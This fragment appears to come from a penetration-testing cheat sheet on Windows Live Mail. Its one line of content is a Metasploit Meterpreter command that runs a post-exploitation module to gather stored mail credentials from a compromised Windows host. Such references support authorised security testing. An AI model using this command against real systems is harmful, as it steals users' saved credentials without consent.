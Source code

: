 # Windows Live Mail

## 01 - Metasploit

`meterpreter > run post/windows/gather/credentials/windowslivemail`